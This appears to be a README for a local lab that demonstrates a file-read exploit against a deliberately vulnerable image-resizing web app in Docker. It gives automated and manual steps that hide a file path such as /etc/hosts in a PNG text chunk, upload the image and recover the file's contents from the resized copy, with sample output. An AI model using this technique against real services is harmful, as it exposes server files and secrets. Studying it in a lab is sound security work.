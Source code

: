 ## Container exploit playground

WIP

### Prerequisites on local machine:
* [Docker Desktop](https://docs.docker.com/get-docker/) (or similar)
* [pngcrush](https://pmt.sourceforge.io/pngcrush/)
* [Python 3](https://www.python.org/)
* [curl](https://github.com/curl/curl)
* _Optional but helpful for troubleshooting:_ [exiv2](https://exiv2.org/) 

### Steps to run (build from the vulnerable-app folder):
* Build the image: `docker build -t poc .`
* Run the vulnerable app: `docker run --rm -p 3000:5000 poc`
* Trigger the exploit, passing in whatever file you want to cat from the poc: `./exploit.py /etc/hosts`

#### Example output:
```shell
$ ./exploit.py /etc/hosts
Encoding /etc/hosts into k8s.png as pngout.png...
Sending pngout.png to localhost:3000...
Finding processed image and downloading as result.png...
Downloading resized-image-1676317559895.png as result.png
Decoding content from /Users/foo/path/to/result.png...

127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	2b6cb0891610
```

Manual Steps:
1. Build and run the vulnerable app as above
2. Encode the file you want to cat into the image: `pngcrush -text a "profile" "/etc/hosts" pngin.png pngout.png`
3. Upload the file to the webapp at http://localhost:3000/
4. Open the images page at http://localhost:3000/images
5. Download the reduced size copy of the image
6. Decode the image file via `docker run --rm -it -v resized-image.png:/result.png node identify -verbose /result.png`